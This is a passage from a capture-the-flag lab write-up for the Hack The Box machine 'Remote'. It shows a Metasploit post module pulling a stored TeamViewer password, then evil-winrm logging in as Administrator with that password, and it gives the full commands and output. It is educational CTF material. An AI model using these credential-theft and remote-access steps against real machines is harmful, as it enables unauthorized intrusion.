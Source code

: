 TeamViewer
```bash
  =======================================================================

    TeamViewer7(TeamViewer GmbH - TeamViewer 7)["C:\Program Files (x86)\TeamViewer\Version7\TeamViewer_Service.exe"] - Auto - Running
    TeamViewer Remote Software
   ======================================================================
```

Teamviewer has a vulnerability as it stores passwords without hashing. You can read [this writeup](https://whynotsecurity.com/blog/teamviewer/) for detailed info. We can retrieve the password using a `msf` module.

```bash
msf5 exploit(multi/handler) > use post/windows/gather/credentials/teamviewer_passwords
msf5 post(windows/gather/credentials/teamviewer_passwords) > show options

Module options (post/windows/gather/credentials/teamviewer_passwords):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION                        yes       The session to run this module on.
   WINDOW_TITLE  TeamViewer       no        Specify a title for getting the window handle, e.g. TeamViewer

msf5 post(windows/gather/credentials/teamviewer_passwords) > set session 4
session => 4
msf5 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
```

And we have the password for `teamviewer`. I am trying to figure out how to do this without `metasploit`.

We can use [`evil-winrm`](https://github.com/Hackplayers/evil-winrm) to remote into the machine.

```bash
kali@kali:~/Desktop/tools/win/evil-winrm$ ruby evil-winrm.rb -i remote.htb -u 'Administrator' -p '!R3m0te!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
remote\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

And we are root!

## Root Shell (Method 2 Teamviewer without msf)
